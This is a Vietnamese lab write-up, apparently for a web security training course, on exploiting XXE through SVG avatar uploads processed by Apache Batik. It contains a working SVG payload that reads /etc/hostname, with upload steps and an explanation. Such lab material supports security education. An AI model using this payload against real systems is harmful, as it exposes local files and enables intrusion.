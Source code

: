 ### Lab 6: Exploiting XXE via image file upload

**Lab des:** 

Bài lab này khai thác một kiểu XXE thông qua upload file SVG, cụ thể là ảnh đại diện (avatar) xử lý bởi thư viện Apache Batik. Đây là một XXE reflected (non-blind), cho phép nhìn thấy ngay dữ liệu đọc được từ file nội bộ hệ thống.

Tải lên một file SVG chứa payload XXE.

Nội dung file `/etc/hostname` sẽ được hiển thị ngay trong phần ảnh.

Ghi lại giá trị hostname đó và submit.

**Steps:** 

Tạo file SVG chứa payload XXE:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px"
     xmlns="http://www.w3.org/2000/svg"
     xmlns:xlink="http://www.w3.org/1999/xlink"
     version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

> 💡 **Giải thích**:
>
> - `<!ENTITY xxe SYSTEM "file:///etc/hostname">`: định nghĩa entity `xxe` chứa nội dung của file hệ thống.
> - `<text>...</text>`: hiển thị nội dung đó dưới dạng text trong ảnh SVG.
> - `Apache Batik` sẽ parse SVG theo chuẩn XML và thực hiện entity expansion, dẫn đến lộ dữ liệu.

------

Gửi comment và tải ảnh lên:

1. Truy cập bất kỳ **bài blog** nào trong lab.
2. Điền comment (bất kỳ) vào form bình luận.
3. Trong phần **Upload avatar**, chọn file `avatar.svg` vừa tạo.
4. Gửi comment.

------

Xem lại comment:

- Sau khi bình luận thành công, trang sẽ hiển thị lại comment kèm ảnh avatar.
- Bạn sẽ **thấy rõ nội dung file `/etc/hostname`** hiển thị trong ảnh SVG, 

![image-20250803180914962](./image/image-20250803180914962.png)
